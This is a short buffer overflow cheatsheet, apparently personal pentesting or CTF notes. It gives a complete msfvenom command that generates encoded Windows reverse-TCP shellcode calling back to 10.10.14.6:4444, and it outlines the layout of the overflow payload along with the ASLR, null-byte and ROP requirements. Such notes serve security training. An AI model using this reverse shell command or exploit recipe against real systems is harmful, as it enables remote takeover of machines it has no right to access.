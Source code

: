 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

## Payload Format

* payload = junk + shell\_addr + \(nops + shellcode\)
  * junk : is offset before the EIP overwritten.
  * shell\_addr : is the address which we overwrite on the EIP register.
  * \(nops + shellcode\) : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

